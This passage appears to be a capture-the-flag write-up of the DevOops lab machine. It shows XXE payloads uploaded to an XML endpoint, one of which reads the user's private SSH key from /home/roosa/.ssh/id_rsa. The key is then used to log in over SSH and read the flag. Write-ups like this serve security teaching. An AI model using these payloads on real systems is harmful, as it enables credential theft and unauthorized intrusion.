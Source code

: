 **Xml eXternal Entities** is an exploit based on weakly configured XML parsers that allow arbitrary file reading on the webserver. 

Since this web application wants us to upload XML files, it seemed natural to me to test this vulnerability.

I used the following payload:
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
<Book>
    <Author>BoiteAKlou</Author>
    <Subject>&example;</Subject>
    <Content>Payload</Content>
</Book>
```
And here is the output from the server:

`PROCESSED BLOGPOST: Author: BoiteAKlou Subject: Doe Content: Payload URL for later reference: /uploads/test2.xml File path: /home/roosa/deploy/src`

We see that the Subject has been replaced by **Doe** so the server is vulnerable.

At this point, we can retrieve a bunch of interesting files or get **roosa's private ssh key** and then login via ssh.

Here's the payload I used:
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [
<!ELEMENT foo ANY> 
<!ENTITY xxe SYSTEM "file:///home/roosa/.ssh/id_rsa" >]>
<Book>
    <Author>BoiteAKlou</Author>
    <Subject>Payload</Subject>
    <Content>&xxe;</Content>
</Book>
```

Once the private key retrieved, we can connect via ssh and enjoy the user flag:
```bash
boiteaklou@kali:/DevOops$ ssh -i id_rsa roosa@10.10.10.91
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.13.0-37-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

135 packages can be updated.
60 updates are security updates.

Last login: Thu Oct 11 17:27:36 2018 from 10.10.12.226
roosa@gitter:~$ cat user.txt 
c5808e[..]ecc67b
```
Now things are getting serious...
